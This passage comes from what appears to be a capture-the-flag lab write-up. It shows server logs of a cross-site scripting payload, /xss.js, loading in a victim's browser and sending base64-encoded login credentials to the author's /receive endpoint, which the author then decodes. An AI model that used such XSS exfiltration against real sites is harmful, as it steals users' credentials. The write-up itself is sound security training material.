 ![5](/images/whyhackme/5.jpg)

Once the target browser processed my script, the following requests hit my server:

```
10.23.106.242 - - [05/Jul/2025 08:45:51] "GET /xss.js HTTP/1.1" 200 -
10.23.106.242 - - [05/Jul/2025 08:45:52] "GET /xss.js HTTP/1.1" 200 -
10.23.106.242 - - [05/Jul/2025 08:45:52] "GET /xss.js HTTP/1.1" 200 -
10.23.106.242 - - [05/Jul/2025 08:45:52] "GET /receive?data= HTTP/1.1" 200 -
10.10.52.132 - - [05/Jul/2025 08:46:02] "GET /xss.js HTTP/1.1" 200 -
10.10.52.132 - - [05/Jul/2025 08:46:02] "GET /receive?data=amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo= HTTP/1.1" 200 -

```

The payload `amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=` looked like our stolen credentials—base64 encoded. To decode it, I used **CyberChef**:

![6](/images/whyhackme/6.jpg)
